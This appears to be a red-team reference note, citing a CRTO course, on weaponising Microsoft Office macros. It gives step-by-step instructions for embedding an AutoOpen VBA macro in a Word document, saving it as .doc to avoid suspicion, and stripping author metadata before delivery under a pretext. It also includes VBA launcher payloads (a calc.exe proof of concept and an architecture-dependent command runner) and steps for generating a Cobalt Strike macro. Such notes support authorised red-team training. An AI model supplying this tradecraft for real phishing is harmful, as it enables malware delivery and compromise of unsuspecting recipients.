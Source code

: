 # Microsoft Office Macro Generation

> Visual Basic for Applications (VBA) is an implementation of Visual Basic that is widely used with Microsoft Office applications to enhance or augment data processing functionality.

---

## Create a Macro in a Word Document

1. In Word, navigate to **View** -> **Macros** -> **View Macros**
2. Change the **Macros in** field from **All active templates and documents** to the name of the current document
3. Give the Macro a name and click **Create**
	- To force a Macro to execute whenever the document is opened, name it **AutoOpen**
4. Develop the Macro
5. Test the Macro with the play, pause, and stop buttons
6. Save the document
	- Give it a name relevant to the chosen pretext
	- In the **Save as type** dropdown, change the format from `.docx` to **Word 97-2003 `(.doc)`**
		- You can't save Macros inside a `.docx` file
		- There's a stigma around the macro-enabled `.docm` extension
7. Prepare the document for delivery by scrubbing your username from it
	- Navigate to **File** -> **Info** -> **Inspect Document** -> **Check for Issues** -> **Inspect Document**
	- Click **Inspect**, then **Remove All** next to **Document Properties and Personal Information**
8. Save the document

---

## `calc.exe` VBA Macro Payload

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

---

## Architecture-Dependent Execution VBA Payload

```vba
Sub Pwn()
  Dim shell As Object
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "$COMMAND_IF_64_BIT"
  Else
    shell.run "$COMMAND_IF_32_BIT"
  End If

End Sub
```

---

## Generate a Microsoft Office Macro Payload via Cobalt Strike

While connected to a Teamserver:

1. Navigate to `Attacks` -> `Packages` -> `MS Office Macro`
2. Select the appropriate Listener
3. Copy the macro
4. [[office-macro-generation#Create a Macro in a Word Document|Embed the macro in the desired document]]

---

## References

[ZeroPoint Security's CRTO Course](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/30314758-visual-basic-for-applications-vba-macro-s)
